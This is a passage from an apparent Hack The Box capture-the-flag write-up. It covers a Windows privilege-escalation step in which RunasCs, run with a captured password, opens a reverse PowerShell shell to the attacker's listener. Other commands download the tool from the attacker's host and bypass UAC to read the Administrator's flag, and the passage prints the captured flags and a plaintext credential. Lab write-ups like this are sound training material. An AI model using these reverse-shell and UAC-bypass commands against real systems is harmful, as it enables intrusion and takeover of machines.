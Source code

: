 ![](images/Pasted%20image%2020250616193341.png)

As seen, we got same rights as admin, after that using `runasCS` we can send ourselves a shell or read the root flag:

```
.\RunasCs.exe "M.SchoolBus" "!suBcig@MehTed!R" powershell.exe -r IP:9001 --remote-impersonation --logon-type 3
```

Now we simply can use `nc`:

```
nc -lvnp 9001
```

We need to get `runasCS.exe` before doing all this, you can get it on here:

REPO: https://github.com/antonioCoco/RunasCs/releases

Unzip the file and you will get it:

![](images/Pasted%20image%2020250616185949.png)

Now, use the same method to get it on our windows machine:

```
Invoke-WebRequest -Uri "http://IP:8000/RunasCs.exe" -OutFile "RunasCs.exe"
```

If we simply want to read root flag, we can do:

```
\RunasCs.exe M.SchoolBus "!suBcig@MehTed!R" "cmd /c type C:\Users\Administrator\Desktop\root.txt" -l 2 -f 2 --bypass-uac    

79cf6d3be2e1e49b4a39a156a363eb9e
```

We can read both flags then:

```
PS C:\Users\f.frizzle> type C:\Users\f.frizzle\Desktop\user.txt
cdea7fdecdd95ce9e7c3734af9bfeaae

PS C:\Users\M.SchoolBus> .\RunasCs.exe M.SchoolBus "!suBcig@MehTed!R" "cmd /c type C:\Users\Administrator\Desktop\root.txt" -l 2 -f 2 --bypass-uac    

79cf6d3be2e1e49b4a39a156a363eb9e
```

![](images/Pasted%20image%2020250616194457.png)

https://www.hackthebox.com/achievement/machine/1872557/652


